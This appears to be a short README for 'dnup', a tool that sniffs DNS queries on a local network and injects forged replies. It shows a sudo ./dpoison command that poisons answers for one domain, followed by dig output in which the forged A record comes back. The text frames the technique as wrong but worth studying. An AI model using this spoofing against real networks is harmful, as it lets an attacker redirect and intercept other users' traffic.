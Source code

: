 dnup
====

DNS poison for L2
Sniffing + injection

If domain name queries would be being sent over broadcast in LAN,
one can read those queries and inject own replies.
Let's do this

http://dnscurve.org/espionage.html

And although this is wrong, it is still may be interesting to study.

$ sudo ./dpoison --device enp0s20u2u3 udp and dst port 53 --query ".*\.reverbrain\.com" --A "1.1.1.1"
...

$ dig @8.8.8.8 www.reverbrain.com
;; Warning: query response not set

; <<>> DiG 9.9.3-rl.13207.22-P2-RedHat-9.9.3-5.P2.fc19 <<>> @8.8.8.8 www.reverbrain.com
; (1 server found)
;; global options: +cmd
;; Got answer:
;; ->>HEADER<<- opcode: QUERY, status: NOERROR, id: 22647
;; flags: rd ad; QUERY: 1, ANSWER: 1, AUTHORITY: 0, ADDITIONAL: 0
;; WARNING: recursion requested but not available

;; QUESTION SECTION:
;www.reverbrain.com.		IN	A

;; ANSWER SECTION:
www.reverbrain.com.	100	IN	A	1.1.1.1

;; Query time: 1 msec
;; SERVER: 8.8.8.8#53(8.8.8.8)
;; WHEN: Thu Nov 14 22:34:39 MSK 2013
;; MSG SIZE  rcvd: 70

